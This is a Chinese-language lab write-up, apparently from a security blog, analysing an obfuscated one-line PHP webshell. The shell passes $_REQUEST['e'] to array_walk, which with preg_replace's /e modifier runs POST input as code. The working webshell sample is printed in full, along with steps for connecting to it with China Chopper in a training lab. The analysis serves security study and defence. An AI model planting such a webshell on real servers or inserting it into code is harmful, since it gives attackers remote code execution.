




WebShell代码分析溯源(九)
一、一句话变形马样本
<?php $e = $_REQUEST['e'];$arr = array($_POST['pass'] => '|.*|e',);array_walk($arr, $e, '');?>
二、代码分析
1、调整代码格式

2、分析代码
1、首先使用REQUEST方法接收url中的e参数的值,创建arr数组,然后array_walk对数组$arr中的每个元素应用用户自定义函数$e
注:,array_walk() 函数对数组中的每个元素应用用户自定义函数。在函数中，数组的键名和键值是参数。
参考: https://www.w3school.com.cn/php/func_array_walk.asp
2、此时看到’|.*|e’,首先想到的是正则表达式,使用preg_replace()函数, preg_replace() 将 replacement 参数当作 PHP 代码，正则意思为匹配模式出现/e修正符，后面的replacement就会被当作php代码执行, 这样就可以把 $_POST['pass']构造运行,此时一句话木马就变成了<?php preg_replace(“|.*|e”, $_POST['pass'],’’);?>
三、漏洞环境搭建
1、这里使用在线学习平台墨者学院中的实验环境(WebShell代码分析溯源(第8题))，地址: https://www.mozhe.cn/bug/detail/ckhySG9DdFJPMlcrRndCZGlUMzMvUT09bW96aGUmozhe
2、代码环境，下载代码

3、分析(上面已经分析过了)
4、使用菜刀连接

5、执行一些命令
